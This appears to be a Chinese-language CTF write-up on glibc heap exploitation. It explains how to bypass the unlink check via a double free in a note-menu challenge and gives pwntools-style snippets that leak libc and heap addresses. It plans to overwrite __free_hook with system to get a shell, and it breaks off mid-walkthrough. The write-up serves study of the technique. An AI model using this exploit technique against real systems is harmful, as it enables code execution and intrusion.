## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`<br>
所以上面代码就可以转换成<br>
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A<br>
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` <br>
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测<br>
并且能将A的值改写成 <br>
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值<br>
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些<br>

## unlink
### 一个menu题目
![](img/menu.PNG)

### 漏洞点
首先看一下new_note<br>
qword_6020A8+8 是note总数量<br>
之后是一个结构体<br>
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
![](img/new_note.PNG)<br>

漏洞点主要在free_note<br>
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use<br>
并且data的指针只free，没有置空，所以这里存在double free<br>
![](img/free_note.PNG)<br>

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址<br>
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址<br>
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体<br>
4.edit根据note结构体中的data来写，所以这一步可以对note结构体里面的任意写，这里<br>
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上了<br>
此时chunka即包含libc的基址（指向unsorted bin），也包含指向heap的基址（指向chunkb）<br>
![](img/unsorted_bin.PNG)<br>
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)
```

#### 2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
使用chunka去,通过edit_note中的realloc合并chunkb,然后通过list就可以泄露基址了<br>
```
edit(0,0x110,'a'*0x10f)
list()
libc_base=u64(p.recvuntil('\x7f')[-6:] + '\x00\x00')
libc_base = libc_base-0x58-libc.symbols['__malloc_hook']-0x10
success(hex(libc_base))

edit(0,0x118,'a'*0x117)
list()
heap_addr=u64(p.recvuntil('\x60')[-3:] + '\x00'*5)

gbuff=heap_addr-(256+16)*3-0x1810
success(hex(gbuff))
```

#### 3.利用note结构体中指向heap的指针和heap中的chunk构造double free
虽然chunkb在前面被free了，但是在note[1]结构体中依然保存着chunkb的data区域的指针<br>
然后通过edit中的realloc可以修改chunkb的fd和bk伪造chunk<br>
chunka+chunkb的这一块大空间伪造了三个chunk<br>
chunk0(free)+chunk1(将要被free，造成double free)+chunk2(size正常，规避next-size检测机制)<br>
Q1:如何double free呢？

![](img/double_free_heap.PNG)
![](img/double_free_note.PNG)<br>











